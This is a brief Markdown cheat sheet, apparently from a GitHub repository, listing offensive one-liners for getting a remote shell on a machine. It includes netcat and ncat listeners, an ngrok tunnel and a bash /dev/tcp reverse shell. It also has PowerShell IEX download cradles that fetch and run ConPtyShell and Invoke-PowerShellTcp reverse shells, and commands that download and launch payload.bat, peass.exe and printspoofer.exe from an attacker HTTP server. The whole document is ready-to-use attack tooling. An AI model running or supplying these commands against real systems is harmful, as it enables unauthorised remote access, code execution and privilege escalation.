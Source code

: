 # Netcat Cheatsheet

## Open Netcat Server

- nc -lv localhost 8782
- ncat -lvnp 1234

## target windows

- stty raw -echo; (stty size; cat) | ncat -lvnp 1337

## Spawn Ngrok Server

- ngrok tcp 8782

## Payload Client

- <https://www.revshells.com>
- <https://bit.ly/3yNL1hg>
- sh -i >& /dev/tcp/10.9.1.25/1332 0>&1

## Spawn TTY

- python -c 'import pty; pty.spawn("/bin/sh")'
- python -c 'import pty; pty.spawn("/bin/bash")'

## Spawn python server

python3 -m http.server 9000

## powershell cheatsheet

- powershell IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.168.173 1337

- powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.1.25:9000/payload/revshellwindow.ps1');Invoke-ConPtyShell 10.10.168.173 1337

- powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.1.25:9000/payload/revshellwindowold.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.9.1.25 -Port 1234

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.1.25:9000/payload/payload.bat','payload.bat')"

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.1.25:9000/linpeas/peass.exe','peass.exe')"

- Start-Process "payload.bat"

- powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.1.25:9000/printspoofer.exe','printspoofer.exe')"
